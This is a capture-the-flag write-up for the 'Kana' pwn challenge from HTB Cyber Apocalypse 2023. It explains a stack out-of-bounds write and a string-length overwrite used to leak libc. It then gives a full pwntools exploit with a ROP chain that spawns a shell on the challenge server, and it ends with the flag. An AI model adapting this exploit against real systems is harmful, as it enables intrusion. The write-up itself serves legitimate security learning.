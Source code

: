 # Kana - HTB Cyber Apocalypse 2023
> Writeup Author: [Mymaqn](https://github.com/Mymaqn)
>
> [`pwn_kana.zip`](pwn_kana.zip)

## Description
To facilitate communication between certain civilizations, a converter was developed. But can this converter be trusted to keep their messages secure?

## Solution
There is a weird buffer overflow/OOB write inside of the function which prints the banner and takes our input:

```C
  memset(&local_78,0,0x30);
  while( true ) {
    read(0,(void *)((long)&local_78 + (long)local_1c),1);
    if (*(char *)((long)&local_78 + (long)local_1c) == '\n') break;
    local_1c = local_1c + 1;
  }
  *(undefined *)((long)&local_78 + (long)local_1c) = 0;
  atoi((char *)&local_78);
  return;
```

This just reads until it hits a newline. However local_1c is on the stack after our input. If we try to overflow with A's no segmentation fault will happen.

This is because we set our indexing to where we should write, to something lower than what was there before. Therefore the rest of our input is read into our actual buffer.

An example of triggering the buffer overflow can be seen here:
```py
from pwn import *


io = process("./kana")
padding = b'A'*92 + b'\x5d\x00\x00\x00' + b'A'*0x100

io.send(padding)

io.interactive()
```

Since our last index in our buffer is 0x5d, we overwrite the index with this number, which causes us to be able to overflow further. However just overflowing isn't enough as the binary has PIE:

Checksec:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Because of this we need to figure out a way to leak. Probably abusing the indexing mechanism to write to something further down the stack than the return pointer of the function.

It took a while to figure out what to overwrite. But I then realized that all strings given to C++'s `cin` function are stored with the length on top of it. We can see then if we create a new kana and call it `CCCCC` for example:

![cpp_strings](./cpp_strings.png)

We can easily test this theory by setting the value to something high. Like 0x80:

![bigger_len](./bigger_len.png)

This makes it a primary target, as we can just overwrite the size of the string to be something way bigger, which then results in the program printing out a bunch of pointers on the stack when printing our kana.

After some calculation I found that we need to set our indexer to 0xc7, since our the length of our kana starts at 0xc8. We can then overwrite this to be 0xf0 and receive a leak.

Once the leak is received, this just becomes normal ROP inside of libc.


Exploit:
```py
from pwn import *

io = remote("46.101.80.159",31595)


io.recvuntil(b'>>')
io.sendline(b'4')
io.recvuntil(b'>>')
io.sendline(b'CCCCCCCCCCCC')
io.recvuntil(b'>>')
#Overwrite the kana length to be 0xf0 instead
io.sendline(b'A'*92+b'\xc7'+p8(0xf0))

#Receive leak
io.recvuntil(b' : ')
libc_leak = u64(io.recvline()[0x78:0x80])
libc_base = libc_leak - 0x29d90
print(f"LIBC LEAK: {libc_base:#x}")

#Calc gadgets
poprdi = p64(libc_base+0x000000000002a3e5)
poprsi = p64(libc_base+0x000000000002be51)
poprdx = p64(libc_base+0x000000000011f497)
poprax = p64(libc_base+0x0000000000045eb0)
binsh = p64(libc_base+0x001d8698)
syscall = p64(libc_base+0x0000000000091396)


#Pop shell
io.recvuntil(b'>>')
padding = b'A'*92+b'\x5d\x00\x00\x00'+b'B'*23

payload = [
    padding,
    poprdi,
    binsh,
    poprsi,
    p64(0),
    poprdx,
    p64(0),
    p64(0xdeadbeef),
    poprax,
    p64(59),
    syscall
]
payload = b''.join(payload)
io.sendline(payload)



io.interactive()
```

## Flag
`HTB{7e6bcd08450c69d3e9e8f225aaf7f90d}`